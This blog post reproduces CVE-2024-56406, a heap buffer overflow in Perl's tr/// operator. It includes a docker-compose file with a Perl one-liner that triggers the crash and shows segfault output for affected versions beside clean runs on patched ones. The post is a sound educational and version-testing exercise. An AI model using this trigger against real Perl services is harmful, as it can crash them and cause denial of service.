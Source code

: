 ```yaml
---
title: "CVE-2024-56406"
date: 2025-05-17T00:00:00+00:00
description: "Discussion about the CVE-2024-56406."
type: post
image: images/blog/cve-2024-56406.png
author: Mohammad Sajid Anwar
tags: ["perl"]
---
```


#### **DISCLAIMER:** Image is generated using `Leonardo AI`.
***

<br>

In the earlier [**post**](/blog/cve-in-perl) where I discussed `CVE` in general and re-created `CVE-2018-18311`, `CVE-2023-31486` and `CVE-2023-47038`.

Recently I found out about [**CPAN Security Group**](https://security.metacpan.org) which is the `CVE Numbering Authority (CNA)` for `CPAN` and `Perl`.

At the `Perl Toolchain Summit 2025`, I had the honour to meet some of the members of the group i.e. ` Stig Palmquist` and `Breno Oliveira`.

Continuing with the series, today I am talking about one more `CVE-2024-56406`.

This particular one affected `v5.34`, `v5.36`, `v5.38` and `v5.40`.

It's about heap buffer overflow when transliterating non-ASCII bytes.

According to the [**official document**](https://lists.security.metacpan.org/cve-announce/msg/28708725), the specific affected versions are below:

<br>

```bash
    from 5.40.0 until 5.40.2
    from 5.38.0 until 5.38.4
    from 5.36.0 through 5.36.3
    from 5.34.0 through 5.34.3
```

<br>

I will use the similar pattern as before and create docker container with affected `Perl` versions.

In that, I'll also add couple of good ones as well.

This is my docker configuration file: `docker-compose.yml`

<br>

```bash
version: '3.8'

x-shared-config: &shared
    command: &perl_command
      - perl
      - -e
      - |
        $$_ = "\x{FF}" x 1000000;
        tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy: &resource_limits
      resources:
        limits:
          memory: 2G

services:
  perl_5_34_0:
    <<: *shared
    container_name: perl_5_34_0
    image: perl:5.34.0

  perl_5_36_0:
    <<: *shared
    container_name: perl_5_36_0
    image: perl:5.36.0

  perl_5_38_0:
    <<: *shared
    container_name: perl_5_38_0
    image: perl:5.38.0

  perl_5_38_4:
    <<: *shared
    container_name: perl_5_38_4
    image: perl:5.38.4

  perl_5_40_0:
    <<: *shared
    container_name: perl_5_40_0
    image: perl:5.40.0

  perl_5_40_2:
    <<: *shared
    container_name: perl_5_40_2
    image: perl:5.40.2
```

<br>

In summary, I am creating the following services that would throw error as expected:

<br>

```bash
    perl_5_34_0
    perl_5_36_0
    perl_5_38_0
    perl_5_40_0
```

<br>

There are two more services `perl_5_38_4` and `perl_5_40_2` which should be safe and unaffected.

Finally it's time to re-create the issues.

<br>

```bash
$ docker-compose run -rm perl_5_34_0
Creating cve-2024-56406_perl_5_34_0_run ... done
ERROR: 139
```

<br>

```bash
$ docker-compose run -rm perl_5_36_0
Creating cve-2024-56406_perl_5_36_0_run ... done
ERROR: 139
```

<br>

```bash
$ docker-compose run -rm perl_5_38_0
Creating cve-2024-56406_perl_5_38_0_run ... done
ERROR: 139
```

<br>

```bash
$ docker-compose run -rm perl_5_40_0
Creating cve-2024-56406_perl_5_40_0_run ... done
ERROR: 139
```

<br>

If you noticed, the exit code is `139` in the affected services.

As we know, `Exit Code = Signal Number + 128` and the `segfault` signal number is `11`.

And the good ones are:

<br>

```bash
$ docker-compose run -rm perl_5_38_4
Creating cve-2024-56406_perl_5_38_4_run ... done
If you see this, Perl didn't crash!!
```

<br>

```bash
$ docker-compose run -rm perl_5_40_2
Creating cve-2024-56406_perl_5_40_2_run ... done
If you see this, Perl didn't crash!!
```

<br>

***

<br>

`Happy Hacking !!!`
